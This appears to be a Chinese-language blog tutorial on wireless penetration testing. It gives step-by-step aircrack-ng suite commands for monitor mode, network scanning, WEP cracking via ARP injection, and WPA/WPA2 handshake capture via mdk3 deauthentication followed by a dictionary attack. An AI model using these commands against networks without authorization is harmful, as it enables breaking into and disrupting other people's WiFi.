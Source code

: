 ```yaml
---
title: 无线网络渗透基础原理
date: 2024-01-13 20:29:56
tags: 渗透测试
mathjax: true
---
```


# 无线网络渗透基础

## 设置监听模式

### 2.4GHz WiFi网卡

```bash
sudo airmon-ng start wlan0
```

随后系统WiFi断开，wlan0接口改名为wlan0mon。

### 5GHz WiFi网卡

仅支持芯片为RT3572和RTL8812AU的无线网卡，前者开启方式同2.4G网络，后者需要手动开启。

安装驱动：

```bash
sudo apt-get install realtek-rt188xxau-dkms
```

查看无线网卡模式：

```bash
iwconfig
```

发现为被管理模式，先停止无线网卡接口，设置为监听模式，再启动：

```bash
ip link set wlan0 down
iwconfig wlan0 mode monitor
ip link set wlan0 up
iwconfig #发现为监听模式 接口名还为wlan0
```

## 网络扫描

### Airodump-ng

```bash
airodump-ng wlan0mon
```

输出结果中每列参数：

| 列名    | 含义                                                         |
| ------- | ------------------------------------------------------------ |
| BSSID   | 无线AP的物理地址。                                           |
| PWR     | 信号水平，信号值越高离AP越近。为-1时标识客户端不在能监听到的范围内。当BSSID和PWR两列都为-1时，网卡驱动不支持该功能。 |
| Beacons | AP发出的通告编号。AP在最低速率1M时美妙大约发送10个Beacon。   |
| #Data   | 被捕获到的数据分组的数量，包括广播分组。如果为WEP，则代表唯一IV数。 |
| #/s     | 过去10s每秒捕获数据分组数量。                                |
| CH      | 信道号，Beacons中获取。                                      |
| MB      | AP支持的最大速率，11表示802.11b协议，22表示802.11b+协议，更高标识802.11g协议。高于54并包含点号标识支持短前导码。包含“e”表示网络中有QoS(802.11e)启用。 |
| ENC     | 加密算法体系。OPN无加密，WEP?表示WEP或WPA/WPA2，WEP表示静/动态WEP，TKIP或CCMP为WPA/WPA2。 |
| CIPHER  | 检测到的加密算法。取值有CCMP（WPA2常用）、WRAAP、TKIP（WPA常用）、WEP和WEP104。密钥索引值大于0为WEP40。索引0~3为40bit，104bit为0。 |
| AUTH    | 认证协议。常用MGT（WPA/WPA2独立认证服务器，如802.1x、radius和eap等）、SKA（WEP共享密钥）、PSK（WPA/WPA2的预共享密钥）或OPN（WEP开放式）。 |
| ESSID   | SSID号。如启用隐藏SSID时可以为空，或显示为\<length:0\>，此时airodump-ng试图从proberesponses和associationrequrests中获取。 |
| STATION | 客户端MAC地址，没连接上时显示not associated。                |
| Rate    | 传输率。                                                     |
| Lost    | 10s内丢失数据分组。                                          |
| Frames  | 客户端发送的数据分组数量。                                   |
| Probe   | 被客户端查探的ESSID。如果客户端尝试连接某个AP但没连接上，将显示在这里。 |

## WEP密码破解

找出AP的SSID：

```bash
airmon-ng start wlan0
airodump-ng wlan0mon
```

捕获数据包并保存在wep文件中，文件命名自动添加后缀为wep-01.ivs。

```bash
airodump-ng --ivs -w wep --bssid AP的MAC地址 -c 1 wlan0mon
```

捕获包的速度会很慢，尝试实施ARP注入攻击：

```bash
aireplay-ng -3 -b AP的MAC地址 -h STA的MAC地址 wlan0mon #-3表示ARP注入攻击
```

等#Data列到达10000以上时可尝试破解，否则继续等待。

密码破解：

```bash
aircrack-ng wep-01.ivs
```

## WPA/WPA2密码破解

找出AP的SSID和信道，方法同上，获取数据包：

```bash
airodump-ng -c 信道 -w wlan --bssid AP的BSSID wlan0mon
```

实施死亡攻击以获取握手包：

```bash
mdk3 wlan0mon d -s 120 -c 信道 #-s发送死亡包的时间间隔 d实施死亡攻击
```

返回airodump-ng会话，当右上角显示WPA handshake和AP的MAC地址时，成功获得握手包，文件命名规则同上，扩展名.cap。

准备个合适的字典叫做passwords.txt，实施暴力破解：

```bash
aircrack-ng -w passwords.txt wlan-01.cap
```
